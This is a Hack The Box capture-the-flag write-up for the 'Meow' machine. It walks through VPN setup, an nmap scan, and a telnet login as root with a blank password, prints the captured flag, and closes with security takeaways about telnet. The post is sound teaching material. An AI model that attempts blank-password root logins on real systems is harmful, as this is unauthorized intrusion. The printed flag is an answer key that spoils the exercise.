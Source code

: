 ```yaml
---
layout: post
title: "Meow – Hack The Box"
categories: htb
date: 2025-07-18
---
```


## 🧠 Summary

Meow is an easy Linux machine that highlights the risks of using **Telnet** with weak or no authentication. We'll start by connecting to the HTB network using OpenVPN, enumerate services using Nmap, exploit the open Telnet service, and capture the flag.

---

## 🛠️ Tools Used

- **OpenVPN** – Connect to HTB VPN
- **ping** – Test connectivity
- **nmap** – Scan for open ports
- **telnet** – Remote access to the target

---

## 🖥️ Target Info

- IP: `10.129.28.108`
- OS: Linux
- Service: Telnet (port 23)

---

## 🚀 Steps to Root

### 1. Connect to HTB VPN
Use the `.ovpn` file provided by Hack The Box:

```bash
sudo openvpn file-name.ovpn
```
![Connecting to HTB VPN](/assets/img/htb/meow/vpn.jpg)

### 2. Verify Connectivity
Check if you can reach the target IP using ping:

```bash
ping 10.129.28.108
```
![Verifying Connection](/assets/img/htb/meow/ping.jpg)

### 3. Scan the Target with Nmap
Run an Nmap scan to find open ports and services:
```bash
nmap -sV -Pn 10.129.28.108
```
Result:
![Nmap Result](/assets/img/htb/meow/nmapresult.jpg)

### 4. Exploit Telnet
Since Telnet is open, connect using:
```bash
telnet 10.129.28.108
```
When asked for a username:
```bash
login: root
Password: (leave blank and press Enter)
```
![Telnet Login](/assets/img/htb/meow/telnet.jpg)

### 5. Capture the Flag
Once inside:
```bash
ls -la
cat flag.txt
```
Flag:
```bash
b40abdf23665f766f9c61ecba8a4c19
```
![Flag Found](/assets/img/htb/meow/flag.jpg)

### Key Takeaways:
- Telnet is insecure and should not be used on modern systems.
- Always disable Telnet and replace it with SSH.
- Never allow root login without a password.
